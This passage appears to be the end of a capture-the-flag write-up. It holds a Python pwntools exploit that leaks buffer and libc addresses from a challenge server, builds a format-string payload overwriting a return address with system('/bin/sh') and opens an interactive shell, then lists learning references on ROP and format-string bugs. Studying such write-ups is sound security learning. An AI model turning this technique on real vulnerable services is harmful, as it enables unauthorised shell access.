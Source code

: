 ```python
    payload += p32(where2)

    print(payload)
    print(len(payload))
    
    return payload

def compute(buf_addr, libc_base):
    # return addr of return addres, param, system, /bin/sh
    # 113 and 121 are offsets to ret_place and argument for system
    return (buf_addr + 113, buf_addr + 121, libc_base + system_offset, libc_base+bin_sh_offset)

def compute_libc_base(libc_leak):
    # we are given address of system - 0x120, so need to subract it
    return libc_leak + 0x120 - system_offset

r = remote('dorsia3.wpictf.xyz', 31338)

buffer_addr = int(r.recv(10), 16)
libc_leak = int(r.recv(10), 16)
r.recvline()

libc_base = compute_libc_base(libc_leak)

print(f'[|] Leaked buffer at: {hex(buffer_addr)}')
print(f'[|] Computed libc at: {hex(libc_base)}')

addrs = compute(buffer_addr,libc_base)
payload = perform_writes(addrs[0], addrs[2], addrs[1], addrs[3])

print(f'[|] Sending payload: {payload}')
r.sendline(payload)
r.recvline()
r.interactive()

```

### References
https://ropemporium.com/ - great place to learn about ROP
https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf - format string vuln explained 